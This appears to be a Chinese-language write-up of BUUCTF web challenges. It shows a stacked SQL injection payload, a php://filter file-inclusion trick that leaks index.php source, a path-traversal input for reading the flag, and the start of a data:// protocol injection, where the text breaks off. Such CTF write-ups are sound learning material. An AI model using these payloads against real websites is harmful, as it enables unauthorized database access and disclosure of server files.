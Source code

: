 # BUUCTF

## 1.black_list（堆叠注入）

![image-20230516190257577](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230516190257577.png)

ban了很多，这里可以使用堆叠注入，即闭合了上一句sql语句后再构建一个语句进行查询

查库名:

1'; show databases;#

看这个

http://t.csdn.cn/wYapq

## 2.[BSidesCF 2020]Had a bad day

题目点击两个不同按钮出现不同图片文件，这里考虑是文件包含漏洞，尝试了一下对于index.php进行包含

![image-20230516192352890](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230516192352890.png)

有报错信息

include(php://filter/read=convert.base64-encode/resource=index.php.php): failed to open stream: operation failed in

include(): Failed opening 'php://filter/read=convert.base64-encode/resource=index.php.php' for inclusion (include_path='.:/usr/local/lib/php') in

可以看到这里输入的文件名有两个后缀php，于是把自己输入的那个删掉，得到index.php源码

![image-20230516192920988](https://s1.ax1x.com/2023/05/16/p9R3xDP.png)

传入的category中必须含有woofers,meowers,index才能进行包含

这里就存在一个姿势

/index.php?category=woofers/../flag

它会先访问woofers然后再返回上一级目录，然后再对flag进行访问，真巧妙啊

![image-20230516193929276](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230516193929276.png)

得到flag

## 3.ZJCTF，不过如此（文件包含、preg_replace 的 /e执行代码漏洞）

![image-20230516205559989](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230516205559989.png)

进行代码审计，这里应该是使用文件包含漏洞

要是text中的内容为特定的字符串，那么需要使用data协议进行写入

?text=data://text/plain,I have a dream
